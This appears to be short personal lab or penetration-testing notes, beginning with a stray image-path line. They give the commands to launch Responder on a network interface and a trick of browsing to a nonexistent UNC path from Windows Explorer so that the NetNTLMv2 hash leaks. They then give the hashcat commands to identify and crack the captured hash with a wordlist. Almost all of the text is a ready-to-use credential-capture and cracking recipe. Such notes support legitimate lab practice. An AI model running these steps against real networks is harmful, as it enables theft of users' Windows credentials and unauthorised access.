# Responder Notes

Launch responder

```
cd /opt/responder
sudo responder -I eth0 -i 10.10.75.1
```

Access a Non-existent system

in file explorer on a windows machine now just try to put this in the search bar: \\hellooo504

this is arbitrary and just sending a connection will send our NetNTLM out on the network that our responder is waiting to connect to

## Crack NetNTLM

```
cd logs/
hashcat --identify SMB-NTLMv2-SSP-10.10.0.1.txt
hashcat -a 0 -m 5600 SMB-NTLMv2-SSP-10.10.0.1.txt /usr/share/wordlists/passwords.txt
```
